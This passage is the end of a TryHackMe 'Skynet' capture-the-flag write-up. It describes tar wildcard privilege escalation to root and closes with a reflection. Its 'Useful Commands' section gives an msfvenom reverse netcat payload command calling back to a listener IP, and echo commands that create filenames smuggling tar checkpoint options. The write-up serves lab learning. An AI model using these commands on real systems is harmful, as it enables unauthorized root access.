 The two command line parameters are `--checkpoint=1` and `--checkpoint-action=exec=sh <filename>`. At every checkpoint, tar will exec the command provided and since root is running the backup script, the checkpoint-action script will be executed as root. Therefore, we can provide a reverse shell payload as the script to execute which will connect back to our netcat listener with a root shell.

I'll provide the exact steps in the Useful Commands section but the following image show the captured shell on port 5555 as root.

![root shell](/assets/img/posts/thm-skynet/root-shell.jpg)

We can grab the root flag!

![root flag](/assets/img/posts/thm-skynet/root-flag.jpg)

We have completed this room!

## Useful Commands

### Tar WildCard Privesc

Generate a reverse netcat payload using msfvenom.

`msfvenom -p cmd/unix/reverse_netcat LHOST=10.6.5.103 LPORT=5555`

Cop the generated payload and save it as `shell.sh` in the folder that the tar command is generating a tar file of.

Create the two "files" that will act as the command line parameters for the tar command.

```
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Set up a netcat listener on port 5555 and wait for the cron task to be done or execute the tar command yourself if SUID is enabled.

## Reflection

Of the category of easy rooms that I have completed on Try Hack Me so far, this probably falls on the higher end of the spectrum. This was definitely a challenging room with many vectors that could have led to rabbit holes.

The previous few rooms I have completed so far have not been finished without some help from a hint on Try Hack Me. Learning from my prior roadblocks, I was determined to do as much due diligence as possible and explore each vector as much as possible without hints. The persistence worked off as I completed this room and learned along the way.

I thoroughly enjoy the themed rooms on THM and this was no exception. There are a ton of opportunities to learn about tools and exploitation techniques including gobuster, hydra, smb, remote file inclusion, and tar privilege escalation.
